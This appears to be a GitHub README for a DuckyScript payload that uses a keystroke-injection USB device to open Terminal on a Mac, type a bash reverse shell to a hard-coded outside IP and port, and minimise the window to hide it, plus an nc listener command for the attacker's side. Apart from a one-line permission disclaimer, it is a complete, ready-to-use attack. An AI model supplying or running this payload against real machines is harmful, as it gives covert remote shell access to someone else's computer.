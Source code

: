 # Ducky-Rev-Shell
Duckyscript in a bash file to get a reverse shell on MacOS.

## DISCLAIMER: This is for security research purposes ONLY. Only use on machines where you have permission or your own.

## Setting up Listener
Listener set up command for Windows.
Run 
  nc -lvnp 87 -s 173.255.247.6
in Powershell, replacing the IP and port with relevant ones.

# DuckyScript Code
<code> DELAY 50
COMMAND SPACE
DELAY 50
STRING TERMINAL
DELAY 50
ENTER
STRING bash
DELAY 50
ENTER
DELAY 50

STRING bash -i >& /dev/tcp/173.255.247.5/87 0>&1

REM Replace IP and port above with listening host

DELAY 50
ENTER
DELAY 50
COMMAND M
DELAY 50
</code>
